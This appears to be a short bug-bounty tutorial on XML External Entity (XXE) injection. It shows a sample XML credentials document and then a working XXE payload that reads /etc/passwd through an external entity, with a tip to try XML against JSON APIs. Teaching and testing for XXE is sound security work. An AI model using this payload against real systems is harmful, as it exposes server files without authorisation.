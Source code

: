 ## XML External Entity (XXE) Injection

XML, or Extensible Markup Language, allows you to use brackets, `< >`, in order to lable and transmit data such as the following...

```
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

Here you have the `<creds>` for a user with it's `<user>` and `<password>` fields.  You always close off your brackets as well, such as `</creds>`.  Much like javascripting.

This is likely to be an internal type of application but if you find something like this facing an external website, it's definitely reportable.

You can take advantage of this with something similar to the following...

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

What's happening here is you are using the `!ELEMENT` inside `!DOCTYPE` and giving the `!ENTITY` (in this case, `xxe`) and giving it the value of `"file:///etc/passwd"`.

When we pass this into the application we get this.

![ScreenShot15.png](Images2/Screenshot15.png)

Searching PayloadsAllTheThings will also give a number of different types of XXE payloads.

Also, it's worth checking API's that expect JSON data with XML format data as it may accept it and then you may be able to pull this attack off after all.